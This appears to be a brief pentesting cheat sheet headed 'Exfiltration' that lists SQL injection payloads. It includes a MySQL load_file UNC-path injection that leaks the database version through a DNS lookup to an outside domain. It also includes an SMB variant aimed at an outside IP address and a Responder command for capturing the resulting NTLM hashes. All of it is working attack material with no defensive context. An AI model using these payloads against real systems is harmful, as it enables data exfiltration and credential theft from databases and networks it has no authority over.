

#Exfiltration 

##DNS Exfiltation +++++++

admin' union select load_file(concat('\\\\',version(),'.23798bcn3749bf34.com\\test.txt')),2,3,4,5,6,7,8,9-- 

##SMB EXFIL ++++++++++

sudo ./Responder.py -I ens5 -wrf  

admin'union select load_file('\\\\157.175.42.81\\test'),2,3,4,5,6,7,8,9-- 

